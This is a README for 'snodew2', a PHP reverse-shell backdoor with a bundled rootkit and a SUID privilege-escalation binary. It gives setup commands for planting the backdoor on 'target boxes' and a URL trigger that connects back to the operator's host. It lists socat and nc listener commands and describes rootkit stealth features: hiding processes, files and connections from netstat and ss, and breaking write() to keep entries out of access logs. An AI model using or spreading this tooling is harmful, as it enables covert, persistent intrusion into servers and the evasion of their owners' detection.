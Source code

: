 
# snodew2
 * PHP reverse shell backdoor which uses a small suid binary to escalate privileges on connection.
 * new iteration of [snodew](https://github.com/mempodippy/snodew) but better.
 * snodew was previously designed to work alongside [vlany](https://github.com/mempodippy/vlany).
   * this is no longer the case as this version comes with its own specialised rootkit.
   * if you don't wish to have rootkit capabilities with snodew2, you can disable installation of the rootkit, so all that is setup is the backdoor itself.
   * but i would have to discourage doing that.
 * when it comes to the backdoor itself, you have 3 possible choices:
   * regular plaintext non-interactive reverse shell.
   * plaintext interactive reverse shell. (socat is required)
   * interactive ssl reverse shell. (socat & ssl is required)

## usage
```
git clone https://github.com/naworkcaj/snodew2.git
cd snodew/
./setup.sh [install dir] [password]
```

### example usage
 * take a look within `setup.sh`. you may want to change the following variables.
   * <b>WWWNAME:</b> to match the target service user's name on the box.
   * <b>SECRET_PORT:</b> to your own port of preference. if you don't; a random number will be used.
   * <b>SNODEW_LOC:</b> somewhat self-explanatory.
     * `snodew.ncat.php` is the original script that came with snodew.
     * `snodew.socat.php` spawn and send the reverse shell to your listener as a psuedo-interactive shell.
     * `snodew.socat.ssl.php` literally the same as above. but with ssl instead of plaintext. (this is the default)
 * if you're sticking with the default, `snodew.socat.ssl.php`, you'll need to use `src/gencert.sh` first on your own box.
   * this will create the necessary files, for `src/listen_socat.sh` on your box & for `setup.sh` to copy & the rootkit too, to hide.
 * after doing `./gencert.sh` (if you're using ssl) & editing your variables to your own preferences, use your own configuration & certificate to install snodew on target boxes.

```
./setup.sh /var/www/html/blog sexlovegod
(or without rootkit capabilities)
NO_ROOTKIT=1 ./setup.sh /var/www/html/blog sexlovegod
```
 * `setup.sh` will show you the name of snodew.php in the location you specified as the installation directory.
 * visit that in your browser. making sure you set your correct password.
   * for example, `http://lol.ok/blog/gjunmf.php?password=sexlovegod`
 * listen for an incoming connection coming from the box you installed snodew on, with an appropriate utility for your setup.
   * `socat file:`tty`,raw,echo=0 tcp-listen:<SECRET_PORT>`
   * `src/listen_socatssl.sh <SECRET_PORT>`
   * `nc -vlp <SECRET_PORT>`
   * `http://lol.ok/blog/gjunmf.php?password=sexlovegod&host=urbox`
   * congrats u have a shell

### examples of successful installation & usage (snodew.socat.ssl.php)
<b>result of successful installation:</b><br>
<img src="https://i.imgur.com/V8tABI9.png">

<b>visiting newly created & hidden php script:</b><br>
<img src="https://i.imgur.com/cY8trpr.png">

<b>getting the reverse shell from the kitted box:</b><br>
<img src="https://i.imgur.com/GLsDxnj.png">

## general notes
 * setup & installation of snodew is free of any significant dependencies.
   * just gcc, an available web service.
   * & `socat` (with ssl support if you desire)
     * not the case if you use `snodew.ncat.php`

## backdoor notes
 * choice of regular plaintext reverse shell, interactive reverse shell powered by socat; or too the latter but using ssl.
   * use of ssl is encouraged. and is the default.
   * see src/snodew.\*.php
 * trying to access snodew.php through a browser without having 'password' set & correct will display a 404 page.
   * NOT THE SERVER'S 404 PAGE. JUST A 404 PAGE.
 * suid executables can potentially be disabled on the box. most likely & usually not.
 * theoretically, snodew.php could be any kind of PHP file. you'd just have to rearrange some stuff.

## rootkit notes
 * all processes spawned for & by the rootkit are hidden.
   * in the original snodew, i had made a note of the fact that the initial spawning of the suid binary was visible in process listings.
     * this is no longer the case.
   * the original version also used extended attributes to hide regular files, i.e, not processes.
     * this too, is no longer the case. we only using a magic GID.

 * when the rootkit is installed, regular users can't see the PHP file, or the suid binary.
   * snodew determines when the service user can see the PHP file & the suid bin...
   * fundamental factors in deciding what makes the service user worthy of being able to see & access the two files are the following:
     * *you may need to change `WWWNAME` in setup.sh*
     * their UID & GID
     * their home directory
     * their environment variables
     * and their process name
 * during installation of the rootkit, you'll be given a magic variable.
   * you'll only need to use this in very special situations, most likely never. you'll know if or when you need to use it.

 * the rootkit's write() hook breaks write when buf contains the php filename.
   * this is in an effort to prevent access logs @ the php file.

## the rootkit does:
 * hide: backdoor connection information from netstat, ss, and all variants.
   * __only for connections on the secret port.__
 * hide: rootkit location from process maps files.
 * hide: obviously, files & processes spawned for or by the rootkit & snodew's backdoor.
 * evades discovery from various tools.
 * running `./killself` in a backdoor shell will remove the backdoor & rootkit from the box.
